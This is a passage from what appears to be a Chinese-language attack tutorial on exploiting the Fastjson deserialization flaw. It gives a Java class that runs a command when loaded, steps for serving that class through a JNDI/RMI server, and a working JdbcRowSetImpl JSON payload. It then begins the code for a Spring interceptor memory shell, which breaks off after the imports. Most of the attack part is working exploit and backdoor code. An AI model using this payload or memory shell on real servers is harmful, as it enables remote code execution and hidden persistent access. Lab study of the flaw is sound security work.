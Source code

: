    

创建恶意代码

    
    
    package com.evalshell.server;  
    import java.lang.Runtime;  
    import java.lang.Process;  
      
    public class TouchFile {  
        static {  
            try {  
                Runtime rt = Runtime.getRuntime();  
                String[] commands = {"open", "/System/Applications/Calculator.app"};  
                Process pc = rt.exec(commands);  
                pc.waitFor();  
            } catch (Exception e) {  
                // do nothing  
            }  
        }  
    }  
    

启动JNDIServer，端口启动在了1099

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826121809.png)

在TouchFile的编译后的类路径下，开启web服务，提供恶意类文件的http下载服务，这个端口必须和上面的JNDIServer中配置的一致。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826121810.png)

我们使用FastJson的Payload进行攻击

    
    
    {  
        "a":{  
            "@type":"java.lang.Class",  
            "val":"com.sun.rowset.JdbcRowSetImpl"  
        },  
        "b":{  
            "@type":"com.sun.rowset.JdbcRowSetImpl",  
            "dataSourceName":"rmi://127.0.0.1:1099/TouchFile",  
            "autoCommit":true  
        }  
    }  
    

用postman请求，攻击成功的话，就会弹出计算器，表示可以执行任意命令。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210826121811.png)

好的，上述已经搭建起一个Fastjson的漏洞环境。

使用上述方法编写拦截器内存马：

    
    
    package com.evalshell.server;  
    import org.springframework.web.context.WebApplicationContext;  
    import org.springframework.web.context.request.RequestContextHolder;  
    import org.springframework.web.context.request.ServletRequestAttributes;  
    import org.springframework.web.servlet.handler.AbstractHandlerMethodMapping;  
    import org.springframework.web.servlet.mvc.condition.PatternsRequestCondition;  
    import org.springframework.web.servlet.mvc.condition.RequestMethodsRequestCondition;  
    import org.springframework.web.servlet.mvc.method.RequestMappingInfo;  
    import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;  
      
